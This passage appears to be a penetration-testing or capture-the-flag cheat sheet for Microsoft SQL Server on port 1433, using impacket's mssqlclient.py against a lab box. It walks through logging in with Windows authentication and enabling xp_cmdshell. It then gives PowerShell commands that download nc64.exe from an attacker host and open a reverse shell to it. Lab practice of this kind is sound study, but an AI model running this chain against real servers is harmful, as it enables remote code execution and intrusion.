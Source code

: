 1433 (Microsoft SQL Server)
------------------------------

* `impacket` -> `mssqlclient.py`

	You can connect to a Microsoft SQL Server with `myssqlclient.py` knowing a username and password like so:

```
mssqlclient.py username@10.10.10.125
```

It will prompt you for a password. **If your password fails, the server might be using "Windows authentication", which you can use with:**

```
mssqlclient.py username@10.10.10.125 -windows-auth
```
```
sudo python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth
```

If you have access to a Micosoft SQL Server, you can try and `enable_xp_cmdshell` to run commands. With `mssqlclient.py` you can try:

```
SQL> enable_xp_cmdshell
```

though, you may not have permission. If that DOES succeed, you can now run commands like:

```
SQL> xp_cmdshell whoami
```

check the role you have on the server
```
SELECT is_srvrolemember('sysadmin');
```
use for enabling command shell:
https://cs.piosky.fr/exploit/windows/mssql/#enable-xp-cmdshell


check PWD
```
xp_cmdshell "powershell -c pwd"
```

Download NC from local server
```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe"
```
exploit
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.86 443"
